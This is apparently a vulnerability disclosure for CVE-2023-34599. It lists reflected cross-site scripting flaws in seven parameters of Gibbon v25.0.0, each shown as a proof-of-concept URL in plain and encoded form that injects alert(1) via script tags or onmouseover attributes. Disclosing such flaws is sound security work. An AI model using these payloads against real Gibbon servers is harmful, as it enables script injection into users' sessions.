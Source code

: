 # CVE-2023-34599

Multiple Cross-Site Scripting (XSS) vulnerabilities have been identified in Gibbon v25.0.0, which enable attackers to execute arbitrary Javascript code.

# Parameter allUsers

http://gibbon.local/index.php?q=/modules/Timetable Admin/courseEnrolment_manage_byPerson_edit.php&gibbonPersonID=0000000001&gibbonSchoolYearID=025&type=Staff&allUsers=rcnk4'><script>alert(1)</script>lo352 http://gibbon.local/index.php?q=%2fmodules%2fTimetable%20Admin%2fcourseEnrolment_manage_byPerson_edit.php&gibbonPersonID=0000000001&gibbonSchoolYearID=025&type=Staff&allUsers=rcnk4%27%3e%3cscript%3ealert(1)%3c%2fscript%3elo352

![Example](https://user-images.githubusercontent.com/88505855/248392639-3e798bb2-433c-4114-b4ac-276042cf359d.png)


# Parameter currentDate

http://gibbon.local/index.php?q=/modules/Departments/department_course_class.php&gibbonCourseClassID=00002426&currentDate=ceb7h"onmouseover="alert(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"f74wd http://gibbon.local/index.php?q=%2fmodules%2fDepartments%2fdepartment_course_class.php&gibbonCourseClassID=00002426&currentDate=ceb7h%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22f74wd

![1](https://user-images.githubusercontent.com/88505855/248392655-ad2e9316-56ad-447d-8f4c-0f7256341ef9.png)


# Parameter gibbonCourseClassID

http://gibbon.local/index.php?q=/modules/Markbook/markbook_view.php&gibbonCourseClassID=00002425}}serbb'><script>alert(1)</script>aehos http://gibbon.local/index.php?q=%2Fmodules%2FMarkbook%2Fmarkbook_view.php&gibbonCourseClassID=00002425%7d%7dserbb%27%3e%3cscript%3ealert(1)%3c%2fscript%3eaehos

![2](https://user-images.githubusercontent.com/88505855/248392687-e7de9c11-9477-4c84-bd74-35c8de3c3c37.png)


# Parameter gibbonCourseClassID

http://gibbon.local/index.php?q=/modules/Departments/department_course_class.php&gibbonCourseClassID=00002426h6yng"onmouseover="alert(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"pm6bw&currentDate=05/22/2023 http://gibbon.local/index.php?q=%2fmodules%2fDepartments%2fdepartment_course_class.php&gibbonCourseClassID=00002426h6yng%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22pm6bw&currentDate=05%2f22%2f2023

![3](https://user-images.githubusercontent.com/88505855/248392700-f6dc683d-9422-4a06-92df-73b43cee43cd.png)


# Parameter gibbonPersonID

http://gibbon.local/index.php?q=/modules/Staff/staff_view_details.php&gibbonTTID=00000010&gibbonPersonID=0000000001ybibn'><script>alert(1)</script>jvqhopis0qf&search=&ttDate=05/23/2023&schoolCalendar=N&personalCalendar=N&spaceBookingCalendar=N&fromTT=Y http://gibbon.local/index.php?q=%2fmodules%2fStaff%2fstaff_view_details.php&gibbonTTID=00000010&gibbonPersonID=0000000001ybibn%27%3e%3cscript%3ealert(1)%3c%2fscript%3ejvqhopis0qf&search=&ttDate=05%2f23%2f2023&schoolCalendar=N&personalCalendar=N&spaceBookingCalendar=N&fromTT=Y

![4](https://user-images.githubusercontent.com/88505855/248392715-133c393a-ba6b-4166-84cc-2f4cb2b88007.png)


# Parameter gibbonSchoolYearID

http://gibbon.local/index.php?q=/modules/Timetable Admin/courseEnrolment_manage_byPerson_edit.php&gibbonPersonID=0000000001&gibbonSchoolYearID=k9x9d'><script>alert(1)</script>y0uk8&type=Staff&allUsers= http://gibbon.local/index.php?q=%2fmodules%2fTimetable%20Admin%2fcourseEnrolment_manage_byPerson_edit.php&gibbonPersonID=0000000001&gibbonSchoolYearID=k9x9d%27%3e%3cscript%3ealert(1)%3c%2fscript%3ey0uk8&type=Staff&allUsers=

![5](https://user-images.githubusercontent.com/88505855/248392722-a6e05520-690f-4c70-b964-4e32f057362b.png)


# Parameter search

http://gibbon.local/index.php?q=/modules/Staff/staff_view_details.php&gibbonTTID=00000010&gibbonPersonID=0000000001&search=yyraq'><script>alert(1)</script>oq7c8fmwwro&ttDate=05/23/2023&schoolCalendar=N&personalCalendar=N&spaceBookingCalendar=N&fromTT=Y http://gibbon.local/index.php?q=%2fmodules%2fStaff%2fstaff_view_details.php&gibbonTTID=00000010&gibbonPersonID=0000000001&search=yyraq%27%3e%3cscript%3ealert(1)%3c%2fscript%3eoq7c8fmwwro&ttDate=05%2f23%2f2023&schoolCalendar=N&personalCalendar=N&spaceBookingCalendar=N&fromTT=Y

![6](https://user-images.githubusercontent.com/88505855/248392743-7f0892d3-ffa7-4e85-96a3-e0f1d65f0c9c.png)


# Parameter subpage

http://gibbon.local/index.php?q=/modules/Staff/staff_view_details.php&gibbonPersonID=0000000001&search=&allStaff=&subpage=Personalpy5ei<script>alert(1)</script>pkq71 http://gibbon.local/index.php?q=%2fmodules%2fStaff%2fstaff_view_details.php&gibbonPersonID=0000000001&search=&allStaff=&subpage=Personalpy5ei%3cscript%3ealert(1)%3c%2fscript%3epkq71

![7](https://user-images.githubusercontent.com/88505855/248392761-e1d2c2f7-2b9a-441b-b5e1-715dcf1ef6c1.png)
